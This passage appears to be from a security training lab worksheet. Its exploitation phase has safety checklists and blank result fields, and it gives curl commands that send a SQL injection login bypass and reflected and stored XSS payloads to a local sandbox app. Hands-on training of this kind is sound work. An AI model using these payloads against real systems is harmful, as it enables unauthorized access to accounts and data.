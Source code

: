 ## ⚔️ Phase 3: Controlled Exploitation (90 minutes)

### 3.1 SQL Injection Exploitation

**Objective**: Safely demonstrate SQL injection impact

#### Pre-Exploitation Checklist:

- [ ] Target confirmed to be in sandbox environment
- [ ] Exploitation method reviewed with instructor
- [ ] Documentation template ready
- [ ] Safety procedures understood

#### Exploitation Attempts:

```bash
# Test basic SQL injection
curl -X POST "http://localhost:5000/login" \
  -d "username=admin' OR '1'='1&password=anything" \
  -H "Content-Type: application/x-www-form-urlencoded"
```

**Results Documentation**:

- **Success/Failure**: **\_\_\_\_**
- **Data Accessed**: **\_\_\_\_**
- **Error Messages**: **\_\_\_\_**
- **Impact Assessment**: **\_\_\_\_**

### 3.2 Cross-Site Scripting (XSS) Testing

**Objective**: Demonstrate XSS vulnerabilities and impact

#### Exploitation Attempts:

```bash
# Test for reflected XSS
curl "http://localhost:5000/search?q=<script>alert('XSS')</script>"

# Test for stored XSS
curl -X POST "http://localhost:5000/comment" \
  -d "comment=<img src=x onerror=alert('Stored XSS')>" \
  -H "Content-Type: application/x-www-form-urlencoded"
```

**Results Documentation**:

- **XSS Type Found**: **\_\_\_\_**
- **Payload Used**: **\_\_\_\_**
- **Response Received**: **\_\_\_\_**
- **Potential Impact**: **\_\_\_\_**

### 3.3 Configuration Exploitation

**Objective**: Exploit misconfigurations and weak settings
